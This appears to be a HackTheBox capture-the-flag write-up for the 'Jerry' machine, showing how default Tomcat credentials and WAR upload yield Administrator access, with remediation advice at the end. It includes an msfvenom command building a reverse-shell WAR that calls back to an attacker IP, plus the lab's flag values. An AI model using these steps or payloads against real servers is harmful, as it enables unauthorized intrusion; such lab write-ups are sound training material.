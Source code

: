 
<p align="center">
  <img src="./screenshots/jerry_logo.png" alt="jerry_logo"/>
</p>

---

- 🎯 **Target:** HackTheBox - Jerry Windows
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point--initial-access)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{7004dbcef0f854e0fb401875f26ebd00}`  |
|   Root Flag   | `flag{04a8b36e1545a455393d067e772fe90e}`  |
|  Credentials  | `tomcat:s3cret`	                    |
|   Technique   | `Insecure Files Upload Attack`	    |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.95 jerry.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 jerry.htb -oN jerry_tcp_scan

```
> Results:

```bash

8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

```

> Scanning showed only one open port `8080`.
> Open in browser:

![tomcat_main_web](./screenshots/tomcat_main_web.png)

> We see the start page of the Apache Tomcat web server

> Go to `Manager App` since that is where the list of all deployed applications is located in **Tomcat**

![tomcat_app](./screenshots/tomcat_app.png)

> But you can’t just get there - this functionality requires elevated privileges (for example, administrator).

![tomcat_access_denied](./screenshots/tomcat_access_denied.png)

> Ok. I Need credentials.

> I found a **wordlist** with credentials for `Tomcat` that can be installed by default:

![tomcat_creds](./screenshots/tomcat_creds.png)

> Using the enumeration method I found the correct pair - `tomcat`:`s3cret`.

> Go to `Manager App`

![tomcat_manager_app](./screenshots/tomcat_manager_app.png)

> I see a list of deployed applications as well as the functionality for adding a new **Java** application. `Tomcat` allows you to download certain types of files - so-called `.war` archives
> which it can independently deploy and display in the list of applications.

---
## 🚪 Entry Point / initial access

---
`Note:` `.war` is a special file format (extension) designed for deploying **Java** applications on `Apache Tomcat` servers. This format is correct for `Tomcat` since it contains all the
necessary components for deploying and running the application itself - `JSP files`, `servlets`, `HTML pages`, `static resources` and `configuration files`.
---

> If there is no filtering or validation of uploaded files on the server side, then having access to the web applications administration panel I can implement an attack of the `Insecure File Upload` type
> which will allow me to gain access to the system.

> Since the application deployment functionality can only accept `.war` files for upload I will generate a suitable payload for the `.war` file via `msfvenom`:

```bash

msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f war -o reverse.war

Payload size: 13033 bytes
Final size of war file: 13033 bytes
Saved as: reverse.war

```

> Uploading the finished `.war` archive to the server:

![tomcat_deploy](./screenshots/tomcat_deploy.png)

> Our downloaded `reverse` appeared in the list of applications.

> I launch the listener and open `reverse` in the browser to activate the payload:

![tomcat_reverse](./screenshots/tomcat_reverse.png)

> Reverse Shell:

![tomcat_admin](./screenshots/tomcat_admin.png)

---
`Note:` `Insecure File Upload` is a web vulnerability that exploits the ability of web applications to expand using user information using functions
to upload something to the server - `files`, `pictures`, `documents`, etc. If the data uploaded by the user is not filtered and checked properly, this can
lead to the execution of arbitrary malicious code on the server side.
---

> Flags are in the directory `C:\Users\Administrator\Desktop\flags`:

```bash

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>

```

> Machine is pwned.

---
## 🧠 Conclusion

> During the machine walkthrough a running `Apache Tomcat` web server was detected on port `8080`. Access to the application administration panel was obtained by exploiting
> `insecure default credentials`. The lack of any filtering when uploading files to the server resulted in access to the system with Administrator privileges by obtaining a
> reverse shell through uploading a `.war` archive containing malicious code. The `Insecure File Upload` vulnerability is dangerous because it allows easy access to the system
> without being an Administrator.

> To eliminate the vulnerabilities, it is necessary to:

- 1) Implement full control over access rights. Do not use default credentials to avoid unauthorized access to the administration functionality. Users
- should not have excessive privileges.

- 2) Be sure to implement `verification of uploaded files`. It is necessary to strictly check and limit the upload of `.war` files.

<p align="center">
  <img src="./screenshots/solved_machine.png" alt="solved_mschine"/>
</p>
